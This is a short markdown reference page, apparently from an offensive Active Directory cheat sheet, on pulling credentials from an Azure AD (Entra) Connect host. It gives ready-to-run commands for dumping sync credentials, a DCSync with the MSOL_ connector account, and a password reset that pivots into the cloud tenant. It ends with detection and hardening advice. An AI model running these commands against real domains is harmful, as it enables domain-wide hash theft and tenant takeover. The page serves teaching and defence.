

# Entra Connect credential extraction

### Affected object / attribute
**AAD Connect connector account** (`MSOL_*`) with **replication rights** on the domain, and the **on-prem sync credentials** stored encrypted in the AAD Connect SQL/LocalDB.

### Concept (deep)
Azure AD Connect needs to read and replicate directory data to synchronise it to Entra ID. The connector account is therefore effectively **DCSync-capable** by design. The host also stores the **on-premises sync account** and cloud credentials encrypted. Compromising the AAD Connect host yields both **domain replication** and a **cloud persistence path** (especially with Password Hash Sync, where resetting an on-prem password also resets the cloud password).

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Remote extraction ─────────────────────────────────────────────────
python3 adconnectdump.py corp.local/admin:'Password123!'@10.10.10.5

# ── On-host extraction (PowerShell) ──────────────────────────────────
Import-Module AADInternals
Get-AADIntSyncCredentials
Get-AADIntGlobalAdmins

# ── DCSync with the connector account ────────────────────────────────
impacket-secretsdump -just-dc 'corp.local/MSOL_abc123$'@10.10.10.5

# ── Cloud pivot (PHS abuse) ───────────────────────────────────────────
# Reset an on-prem user's password → cloud password syncs
Set-ADAccountPassword -Identity victim -Reset
```

### Impact
- **Domain replication**: DCSync every hash.
- **Tenant takeover**: PHS abuse or connector credential misuse.

### Detection and defensive measures
- **4662** from the `MSOL_*` connector account outside its sync window.
- **Tier-0 the AAD Connect host**; restrict logon; use **gMSA** for the connector where supported.
- **Monitor** AAD Connect service account logons and configuration changes.

---
